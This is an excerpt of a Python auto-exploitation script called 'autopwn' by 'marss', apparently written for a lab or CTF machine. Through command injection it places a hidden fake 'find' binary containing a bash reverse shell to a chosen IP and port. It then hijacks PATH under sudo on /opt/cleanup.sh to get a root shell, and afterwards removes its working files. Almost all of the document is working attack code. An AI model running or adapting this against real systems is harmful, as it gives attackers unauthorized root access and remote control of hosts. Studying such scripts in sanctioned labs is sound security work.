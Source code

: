 ```python
	def run(self):
		# Post request with command injection
		with log.progress('Starting Inyection Attack') as progress:

		    # (1) Create workstation
		    progress.status('Creating working directory')
		    self.command_inyection(f"mkdir /tmp/.{self.ip_address}")
		    log.info('Working directory created')
		    
		    # (2) Create binary with malicious code (reverse shell in bash)
		    progress.status('Inyecting malicious code into our binary file')
		    self.command_inyection(f"echo \"#!/bin/bash\\nbash -c 'bash -i >& /dev/tcp/{self.ip_address}/{self.port} 0>&1'\" > /tmp/.{self.ip_address}/find && chmod +x /tmp/.{self.ip_address}/find")
		    log.info(f'Binary created: /tmp/.{self.ip_address}/find')
		    
		    # (3) Listening mode
		    log.info(f'Open port {self.port} to receive root shell (g.e /usr/bin/nc -l {self.port})')
		    input('Press ENTER to continue.')
		    
		    # (4) Execute binary like root to receive shell
		    progress.success('Getting connection in a few seconds')
		    self.command_inyection(f"sudo PATH=/tmp/.{self.ip_address}:$PATH /opt/cleanup.sh")

		    # (5) Removing working directory and binary file
		    log.info('Removing working directory and files')
		    self.command_inyection(f"rm -rf /tmp/.{self.ip_address}")


# Main flow
if __name__ == '__main__':
	ascii_title = """
	                               __
	 /\      |_  _   _       _    |__) |_   _  |_  _  |_   _   _  |_ 
	/--\ |_| |_ (_) |_) \)/ | )   |    | ) (_) |_ (_) |_) (_) ||| |_)
	                |                                                
	                                                            by marss
  """
	parser = argparse.ArgumentParser(
		description=ascii_title,
		formatter_class=argparse.RawDescriptionHelpFormatter,
		epilog="""Example:
		autopwn.py -i 10.10.10.10 -p 4444
		""")

	parser.add_argument('-i', '--ip', required=True, help='specified IP to receive the shell')
	parser.add_argument('-p', '--port', required=True, help='specified PORT to receive the shell')

	args = parser.parse_args()

	print(ascii_title)

	exploit = Exploit(args)

	exploit.run()
```
